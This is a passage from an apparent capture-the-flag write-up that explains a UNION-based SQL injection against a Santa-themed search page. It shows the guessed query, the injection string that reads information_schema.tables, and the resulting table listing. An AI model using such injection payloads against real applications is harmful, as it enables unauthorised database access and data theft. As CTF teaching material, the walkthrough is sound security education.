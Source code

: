 This means we can probably do some SQL injection.

### SQL Injection

As we can see the result of the query on the screen, it's a little easier that last time. Firstly, let's think of what the query might be. It could be something like this:

```sql
SELECT id, descr, proof FROM santabase WHERE descr LIKE '%search text%' OR proof LIKE '%search text%'
```

If this were the query, we could use a `UNION SELECT` to add our own query. Let's try getting the table names. I came up with the following query:

```sql
UNION SELECT table_name, 2, 3 FROM information_schema.tables
```

The `2` and `3` in the `SELECT` are a filler because our guessed query has three columns. The use this query we have to escape the string in the query first. To do this, I added a `'` before our query and appended the symbols for a comment (`--`) at the end. This results in the following input: `' UNION SELECT table_name, 2, 3 FROM information_schema.tables -- `. This way the query that will be executed becomes this:

```sql
SELECT id, descr, proof FROM santabase WHERE descr LIKE '%' UNION SELECT table_name, 2, 3 FROM information_schema.tables -- %' OR proof LIKE '%' UNION SELECT table_name, 2, 3 FROM information_schema.tables -- %'
```

As you can see the string is escaped and the result of this query will have the result of our query at the end.

When submitting it I got the following result:

{{< collapsible-block badge="text" title="Result" >}}

```markdown
| id                                                 | Description   | Proof        |
| -------------------------------------------------- | ------------- | ------------ |
| 1                                                  | Acces-------- | The a------- |
| 2                                                  | KFC R-------- | The 1------- |
| 3                                                  | Adven-------- | FLAG ------- |
| 4                                                  | The d-------- | Do yo------- |
| ALL_PLUGINS                                        | 2--------     | 3-------     |
| APPLICABLE_ROLES                                   | 2--------     | 3-------     |
| CHARACTER_SETS                                     | 2--------     | 3-------     |
| CHECK_CONSTRAINTS                                  | 2--------     | 3-------     |
| COLLATIONS                                         | 2--------     | 3-------     |
| COLLATION_CHARACTER_SET_APPLICABILITY              | 2--------     | 3-------     |
| COLUMNS                                            | 2--------     | 3-------     |
| COLUMN_PRIVILEGES                                  | 2--------     | 3-------     |
| ENABLED_ROLES                                      | 2--------     | 3-------     |
| ENGINES                                            | 2--------     | 3-------     |
| EVENTS                                             | 2--------     | 3-------     |
| FILES                                              | 2--------     | 3-------     |
| GLOBAL_STATUS                                      | 2--------     | 3-------     |
| GLOBAL_VARIABLES                                   | 2--------     | 3-------     |
| KEY_CACHES                                         | 2--------     | 3-------     |
| KEY_COLUMN_USAGE                                   | 2--------     | 3-------     |
| PARAMETERS                                         | 2--------     | 3-------     |
| PARTITIONS                                         | 2--------     | 3-------     |
| PLUGINS                                            | 2--------     | 3-------     |
| PROCESSLIST                                        | 2--------     | 3-------     |
| PROFILING                                          | 2--------     | 3-------     |
| REFERENTIAL_CONSTRAINTS                            | 2--------     | 3-------     |
| ROUTINES                                           | 2--------     | 3-------     |
| SCHEMATA                                           | 2--------     | 3-------     |
```